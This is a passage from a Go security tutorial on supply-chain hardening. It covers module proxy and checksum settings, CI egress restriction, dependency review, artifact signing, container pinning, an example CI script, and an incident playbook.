export GONOSUMDB="git.company.internal/*"
export GONOPROXY="none" # if internal proxy handles private modules
export GOSUMDB="sum.golang.org"
export GOWORK="off"
export CGO_ENABLED="0" # unless explicitly needed
```

But every line must match your architecture.

### 29.1 Avoid dangerous global settings

Suspicious:

```bash
export GOSUMDB=off
export GOPROXY=direct
export GOINSECURE=*
export GOPRIVATE=*
```

These may be temporarily useful in isolated environments, but they should not be normal release build defaults.

---

## 30. Network Egress Control for Builds

Supply chain hardening is easier if build jobs cannot talk to arbitrary internet.

Build egress model:

```text
CI runner can reach:
- internal Git host
- internal module proxy
- artifact registry
- vulnerability database mirror/API if needed
- signing service/KMS

CI runner cannot reach:
- arbitrary public internet
- cloud metadata except controlled identity path
- production databases
- unrelated secret stores
```

This prevents:

- malicious `go generate` downloading code,
- test exfiltration,
- dependency confusion via uncontrolled external lookup,
- build script curl/bash behavior.

---

## 31. Dependency Confusion in Go

Dependency confusion occurs when internal dependency names can be resolved from public sources.

Go mitigations:

- use private domain module paths,
- configure `GOPRIVATE`,
- use internal proxy,
- avoid ambiguous public-looking paths,
- block external lookup for private patterns,
- CI egress restrictions.

Bad:

```go
require github.com/company/internal-auth v0.1.0
```

if `github.com/company` is not controlled by your organization.

Better:

```go
require git.company.internal/security/auth v0.1.0
```

---

## 32. License and Legal Supply-Chain Review

Security supply chain overlaps with legal/compliance.

Review:

- license type,
- transitive licenses,
- copyleft obligations,
- attribution requirements,
- commercial restrictions,
- export control if cryptography involved,
- government/client policy.

Go command can list module metadata but license detection usually needs external tooling or SBOM/license scanner.

Policy:

```text
No new dependency reaches production without license classification.
```

---

## 33. Vulnerability Management Boundary

This part introduces the boundary; part 033 goes deep.

Known vulnerability management includes:

- dependency vulnerability database,
- standard library vulnerability updates,
- reachability analysis,
- exploitability context,
- remediation SLA,
- exception workflow,
- compensating controls.

Go-specific:

- Go Vulnerability Database,
- `govulncheck`,
- pkg.go.dev vulnerability indicators,
- module updates,
- Go toolchain security releases.

Important distinction:

```text
Vulnerability present in dependency != vulnerable application.
Vulnerability reachable from application != always exploitable.
Not reachable today != safe forever if code changes tomorrow.
```

---

## 34. Standard Library Supply Chain

Do not forget the Go standard library.

If `net/http`, `crypto/x509`, `html/template`, `archive/tar`, `os/exec`, or `syscall` has security fix, your dependency scanner may not frame it like third-party module risk.

Policy:

```text
1. Track Go release history.
2. Patch Go minor releases within SLA.
3. Rebuild artifacts after toolchain update.
4. Do not assume static binary updates itself.
```

A Go binary built with vulnerable standard library remains vulnerable until rebuilt with fixed toolchain.

---

## 35. Container Supply Chain for Go

Even pure Go apps are often shipped in containers.

Risk areas:

- builder image,
- runtime base image,
- OS package CVEs,
- CA certificates,
- timezone data,
- shell/package manager left in runtime image,
- root user,
- writable filesystem,
- image tag mutability,
- registry permissions.

Good pattern:

```dockerfile
# syntax=docker/dockerfile:1

FROM golang:1.26.4-bookworm AS build
WORKDIR /src
COPY go.mod go.sum ./
RUN go mod download
COPY . .
RUN CGO_ENABLED=0 GOOS=linux GOARCH=amd64 go build -trimpath -o /out/service ./cmd/service

FROM gcr.io/distroless/static-debian12:nonroot
COPY --from=build /out/service /service
USER nonroot:nonroot
ENTRYPOINT ["/service"]
```

For regulated environments, pin images by digest, not just tag:

```dockerfile
FROM golang@sha256:<digest> AS build
```

---

## 36. Artifact Signing

Artifact signing answers:

> “Was this artifact produced by an authorized build identity?”

Typical tools/patterns:

- Sigstore/cosign,
- KMS-backed signing,
- CI OIDC identity,
- keyless signing,
- in-toto/SLSA provenance,
- admission controller verifying signatures.

Policy invariant:

```text
Unsigned artifact cannot be deployed to production.
Artifact signed by developer laptop cannot be deployed to production.
Only trusted CI identity can sign release artifact.
```

---

## 37. Secure Release Process

A mature Go release process:

```text
1. Developer opens PR.
2. Review includes code + dependency diff.
3. CI runs tests, static checks, vuln checks.
4. Merge to protected branch.
5. Release workflow builds from immutable commit.
6. Release workflow uses approved Go toolchain.
7. Dependencies fetched from internal proxy.
8. Artifact built in isolated runner.
9. SBOM generated.
10. Provenance generated.
11. Artifact signed.
12. Registry stores immutable digest.
13. Deployment references digest.
14. Admission verifies signature/provenance.
15. Runtime exposes build identity safely.
```

---

## 38. Policy as Code

Supply-chain controls should not live only in wiki.

Examples:

- CI workflow checks,
- repository branch protection,
- CODEOWNERS for `go.mod`, `go.sum`, `Dockerfile`, CI files,
- Open Policy Agent/Rego for deployment admission,
- dependency allow/deny list,
- vulnerability exception registry,
- SBOM upload gate,
- signed artifact verification.

CODEOWNERS example:

```text
/go.mod              @security-platform @backend-leads
/go.sum              @security-platform @backend-leads
/Dockerfile          @platform-security
/.github/workflows/  @platform-security
/tools.go            @security-platform
```

---

## 39. Common Anti-Patterns

### 39.1 “We committed `go.sum`, so supply chain is solved”

No. `go.sum` gives integrity consistency, not trust, policy, vulnerability, or provenance.

### 39.2 “Just set `GOSUMDB=off` because private module failed”

This disables a useful public-module integrity control. Fix `GOPRIVATE`/proxy config instead.

### 39.3 “CI can use public internet freely”

This makes malicious build scripts and generators much more dangerous.

### 39.4 “Generated code does not need review”

Generated code is code, especially at API/auth/serialization boundary.

### 39.5 “Transitive dependency is not our problem”

It is your runtime code if it reaches production.

### 39.6 “Container tag is enough”

Tags are mutable. Use digest pinning for release artifacts.

### 39.7 “Vulnerability scanner says zero, so secure”

Known-vuln scanning is not threat modeling, not code review, not secret scanning, not provenance.

---

## 40. Practical Go Supply-Chain Baseline

For a serious Go service, minimal baseline:

```text
Repository:
- go.mod and go.sum committed.
- go.mod/go.sum changes require codeowner review.
- No unapproved replace.
- No local-path replace on main.
- go.work policy explicit.
- tools.go pins generators.

Dependencies:
- go mod tidy gate.
- Dependency diff review.
- License review.
- Vulnerability scan.
- Parser/crypto/auth deps get deeper review.

Private modules:
- GOPRIVATE configured.
- Internal proxy or direct private access defined.
- No private path leakage to public proxy/sumdb.

CI:
- Approved Go toolchain.
- Trust-separated caches.
- Restricted egress.
- No broad secrets in PR jobs.
- govulncheck or equivalent.
- SBOM generated.

Build:
- Reproducible-ish flags where practical.
- Build metadata included.
- Artifact signed.
- Provenance generated.
- Deploy by digest.

Runtime:
- Binary traceable to commit/toolchain/module graph.
- Standard library security updates tracked.
- Incident rollback and rebuild process documented.
```

---

## 41. Example CI Script

```bash
#!/usr/bin/env bash
set -euo pipefail

echo "== Go environment =="
go version
go env GOPROXY GOPRIVATE GONOSUMDB GONOPROXY GOSUMDB GOWORK GOMODCACHE GOCACHE

echo "== Module consistency =="
go mod tidy
git diff --exit-code go.mod go.sum

echo "== Dependency inventory =="
go list -m all > build-dependencies.txt

echo "== Tests =="
go test ./...

echo "== Vulnerability scan =="
govulncheck ./...

echo "== Build =="
COMMIT="$(git rev-parse HEAD)"
VERSION="${VERSION:-dev}"
BUILD_TIME="$(date -u +%Y-%m-%dT%H:%M:%SZ)"

go build \
  -trimpath \
  -buildvcs=true \
  -ldflags "-X main.version=${VERSION} -X main.commit=${COMMIT} -X main.buildTime=${BUILD_TIME}" \
  -o bin/service \
  ./cmd/service

echo "== Build info =="
go version -m bin/service
```

In real CI, avoid installing `govulncheck@latest` every run; pin it.

---

## 42. Example Dependency Exception Record

```markdown
# Dependency Exception Record

## Dependency
- Module:
- Version:
- Direct/transitive:
- Introduced by:

## Reason
- Business/technical need:
- Why standard library is insufficient:
- Alternatives considered:

## Risk
- Processes untrusted input: yes/no
- Network access: yes/no
- Crypto/auth/session/secrets: yes/no
- cgo/native: yes/no
- Maintainer/release activity:
- Known vulnerabilities:
- License:

## Controls
- Isolated behind interface:
- Input limits:
- Fuzz tests:
- Vulnerability monitoring:
- Owner:
- Review date:
- Expiry date:

## Decision
- Approved/rejected:
- Approver:
- Date:
```

---

## 43. Example `go.mod` Review Diff Reading

Suppose PR changes:

```diff
 require (
+    github.com/dgrijalva/jwt-go v3.2.0+incompatible
     github.com/google/uuid v1.6.0
 )
```

Review response:

```text
Block.

Reason:
- JWT/auth dependency.
- Module is old/unmaintained lineage.
- Security-sensitive parser/validator.
- Need maintained library and explicit validation policy.
```

Another diff:

```diff
+replace github.com/acme/pdf => github.com/randomuser/pdf v0.0.1
```

Review response:

```text
Block until explained.

Reason:
- Fork replacement.
- PDF parser processes untrusted input.
- Unknown maintainer.
- Needs issue, owner, expiry, vulnerability scan, fuzz/limits.
```

---

## 44. Supply-Chain Incident Playbook

### 44.1 Trigger

Examples:

- dependency compromised,
- malicious release detected,
- Go standard library security release,
- private module leaked,
- CI token exposed,
- artifact registry modified,
- signing key compromised.

### 44.2 Immediate questions

```text
1. Which services use the module/version?
2. Is vulnerable/malicious code reachable?
3. Which artifacts were built with it?
4. Which environments deployed those artifacts?
5. Was the artifact signed? By whom?
6. Were secrets exposed in build/runtime?
7. Is rollback safe, or must we roll forward?
8. Do we need key rotation?
9. Do audit logs show suspicious behavior?
```

### 44.3 Commands

```bash
# Find module usage
grep -R "module-or-package-name" -n .

go list -m all | grep 'module-name'
go mod why -m module-name

govulncheck ./...

go version -m ./bin/service
```

### 44.4 Remediation

```text
1. Freeze affected releases.
2. Revoke compromised credentials.
3. Patch dependency/toolchain.
4. Rebuild artifact from clean CI.
5. Sign new artifact.
6. Deploy by digest.
7. Verify runtime version.
8. Document impact and evidence.
9. Add regression control/policy.
```

---

## 45. Design Review Template: Go Supply Chain

```markdown
# Go Supply-Chain Design Review

## Service
- Name:
- Repository:
- Owners:
- Data sensitivity:
- Runtime environment:

## Module system
- Go version:
- Toolchain version:
- GOPROXY:
- GOSUMDB:
- GOPRIVATE:
- GONOPROXY:
- GONOSUMDB:
- Vendor mode:
- Workspace policy:

## Dependency policy
- Direct dependency count:
- High-risk dependencies:
- cgo dependencies:
- Parser dependencies:
- Crypto/auth dependencies:
- License scanner:
- Vulnerability scanner:

## Build pipeline
- CI provider:
- Runner trust model:
- Cache isolation:
- Network egress:
- Secrets available:
- Build tags:
- cgo setting:
- Generated code policy:

## Artifact
- Binary/container:
- Build metadata:
- SBOM:
- Provenance:
- Signing:
- Registry immutability:
- Deploy by digest:

## Incident readiness
- Dependency owner:
- Patch SLA:
- Rollback process:
- Rebuild process:
- Signing key rotation:
- Audit evidence location:

## Decision
- Approved:
- Conditions:
- Expiry/re-review date:
```

---

## 46. Summary

Go gives strong primitives for supply-chain integrity:

- module-aware dependency resolution,
- `go.sum`,
- checksum database,
- module proxy support,
- private module controls,
- build info embedded in binaries,
- vulnerability tooling,
- mostly simple build model.

But strong primitives are not the same as strong system.

A serious Go supply-chain posture requires:

1. Dependency review.
2. Private module leakage prevention.
3. Module cache isolation.
4. Toolchain version governance.
5. Generated code control.
6. cgo/native dependency awareness.
7. CI runner hardening.
8. Artifact signing/provenance.
9. SBOM and vulnerability management.
10. Incident playbook.

The final mental model:

```text
Secure Go supply chain =
    verified inputs
  + reviewed dependencies
  + controlled build environment
  + traceable artifacts
  + enforceable deployment policy
  + fast vulnerability response
```

---

## 47. References

- Go Modules Reference: https://go.dev/ref/mod
- Go module `go.mod` reference: https://go.dev/doc/modules/gomod-ref
- Go Toolchains: https://go.dev/doc/toolchain
- Go Vulnerability Management: https://go.dev/doc/security/vuln/
- Go Vulnerability Database: https://go.dev/doc/security/vuln/database
- Go Security: https://go.dev/doc/security/
- Go Release History: https://go.dev/doc/devel/release
- Go 1.26 Release Notes: https://go.dev/doc/go1.26
- SLSA: https://slsa.dev/
- OpenSSF Scorecard: https://scorecard.dev/
- OWASP Software Component Verification Standard: https://owasp.org/www-project-software-component-verification-standard/
- CycloneDX: https://cyclonedx.org/

---

## 48. Next Part

Part berikutnya:

```text
learn-go-security-cryptography-integrity-part-033.md
```

Topik:

```text
Vulnerability Management: Go Vulnerability Database, govulncheck, reachability-based scanning, binary scanning, CI integration, patch triage, and security release playbook.
```


<!-- NAVIGATION_FOOTER -->
<div class="page-nav">
<a href="./learn-go-security-cryptography-integrity-part-031.md">⬅️ Part 031 — Availability Security in Go: DoS, Resource Exhaustion, Goroutine Leaks, Memory Pressure, Parser Bombs, Rate Limiting, Circuit Breaking, and Graceful Degradation</a>
<a href="./index.md">📚 Kategori</a>
<a href="../../index.md">🏠 Home</a>
<a href="./learn-go-security-cryptography-integrity-part-033.md">Part 033 — Vulnerability Management in Go: Go Vulnerability Database, `govulncheck`, Reachability-Based Scanning, Binary Scanning, CI Integration, Patch Triage, and Security Release Playbook ➡️</a>
</div>
